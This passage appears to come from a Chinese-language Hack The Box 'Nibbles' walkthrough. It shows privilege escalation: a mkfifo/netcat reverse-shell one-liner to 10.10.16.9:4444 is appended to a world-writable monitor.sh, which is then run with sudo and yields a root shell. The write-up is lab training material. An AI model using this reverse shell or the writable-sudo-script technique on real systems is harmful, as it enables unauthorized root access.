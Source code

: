         ```
        nibbler@Nibbles:/home/nibbler$ unzip personal.zip
        unzip personal.zip
        Archive:  personal.zip
        creating: personal/
        creating: personal/stuff/
        inflating: personal/stuff/monitor.sh  
        ```

    + 此时就可以正常查看`monitor.sh`:

        ```
        nibbler@Nibbles:/home/nibbler$ cd personal/stuff/
        cd personal/stuff/
        nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -laih
        ls -laih
        total 12K
        49935 drwxr-xr-x 2 nibbler nibbler 4.0K Dec 10  2017 .
        49934 drwxr-xr-x 3 nibbler nibbler 4.0K Dec 10  2017 ..
        970 -rwxrwxrwx 1 nibbler nibbler 4.0K May  8  2015 monitor.sh
        ```

    + `monitor.sh`可写，不妨直接将shell语句写入其中：

        ```
        nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 4444 > /tmp/f" >> monitor.sh  
        < /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 4444 > /tmp/f" >> monitor.sh  

        nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh
        cat monitor.sh
        ···
        shift $(($OPTIND -1))
        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 4444 > /tmp/f
        ```

+ 本地监听：

    ```
    ┌──(kali㉿kali)-[~/桌面/HTB/Nibbles]
    └─$ nc -nlvp 4444
    listening on [any] 4444 ...
    ```

+ 执行`monitor.sh` get shell：

    ```
    nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
    sudo ./monitor.sh
    'unknown': I need something more specific.
    /home/nibbler/personal/stuff/monitor.sh: 26: /home/nibbler/personal/stuff/monitor.sh: [[: not found
    /home/nibbler/personal/stuff/monitor.sh: 36: /home/nibbler/personal/stuff/monitor.sh: [[: not found
    /home/nibbler/personal/stuff/monitor.sh: 43: /home/nibbler/personal/stuff/monitor.sh: [[: not found

    ```
    ```
    ┌──(kali㉿kali)-[~/桌面/HTB/Nibbles]
    └─$ nc -nlvp 4444
    listening on [any] 4444 ...
    connect to [10.10.16.9] from (UNKNOWN) [10.10.10.75] 41526
    # whoami
    root
    # python3 -c "import pty;pty.spawn('/bin/bash')"
    root@Nibbles:/home/nibbler/personal/stuff# cd /
    cd /